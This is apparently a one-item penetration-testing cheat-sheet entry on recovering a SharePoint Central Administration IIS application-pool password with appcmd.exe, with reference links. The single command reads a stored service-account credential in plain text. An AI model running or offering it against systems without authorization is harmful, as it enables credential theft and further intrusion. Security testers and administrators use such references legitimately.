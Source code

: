 ### 1. Recover IIS password
```
c:\windows\system32\inetsrv\appcmd.exe list apppool "SharePoint Central Administration v4" /text:ProcessModel.Password
```
**- passwords,enumeration,Windows,IIS**
#### References:

https://yg.ht
https://www.iis.net/learn/get-started/getting-started-with-iis/getting-started-with-appcmdexe
__________
